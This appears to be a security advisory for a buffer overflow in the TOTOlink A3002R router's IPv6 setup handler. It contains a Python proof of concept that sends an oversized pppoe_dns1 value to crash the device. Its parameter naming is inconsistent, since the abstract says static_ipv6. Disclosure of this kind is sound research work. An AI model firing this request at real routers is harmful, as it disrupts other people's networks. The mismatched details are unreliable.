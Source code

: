 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_ipv6` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v39` variable is passed to `v51` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `pppoe_dns1` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`pppoe_dns1`" data, and `strcpy` copies the string pointed to by `v39` to `v51` without verifying whether `v51` has enough space to store the copied string. If the string pointed to by `v39` exceeds the size of the `v51` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=0&enable_dhcpv6RapidCommit=1&&pppoe_dns1={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
